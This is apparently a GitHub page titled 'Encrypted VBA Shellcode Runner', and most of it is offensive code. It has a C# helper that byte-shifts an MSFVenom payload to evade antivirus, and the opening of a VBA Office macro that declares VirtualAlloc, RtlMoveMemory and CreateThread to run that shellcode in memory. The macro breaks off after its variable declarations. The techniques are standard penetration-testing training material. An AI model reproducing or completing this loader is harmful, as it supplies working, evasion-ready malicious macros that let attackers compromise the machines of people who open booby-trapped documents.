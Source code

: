 &nbsp;
<span style="font-size: 25px; color:white"><b>Encrypted VBA Shellcode Runner</b></span>

Helper to encrypt the original payload from MSFVenom:
```cs
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;

namespace Helper
{
    class Program
    {
        static void Main(string[] args)
        {
            byte[] buf = new byte[794] {0xfc,0x48,0x83,0xe4,0xf0,0xe8, //Change here

			 byte[] encoded = new byte[buf.Length];
			   for(int i = 0; i < buf.Length; i++)
			   {
			     encoded[i] = (byte)(((uint)buf[i] + 2) & 0xFF);
			   }
 
			   uint counter = 0;
 
			   StringBuilder hex = new StringBuilder(encoded.Length * 2);
			   foreach(byte b in encoded)
			   {
					hex.AppendFormat("{0:D}, ", b);
					counter++;
				    if(counter % 50 == 0)
					{
						hex.AppendFormat("_{0}", Environment.NewLine);
					}
				}
			Console.WriteLine("The payload is: " + hex.ToString());
		}
	}
}
```

It will output a shellcode to input to the file below:
```vb
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long


Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long

```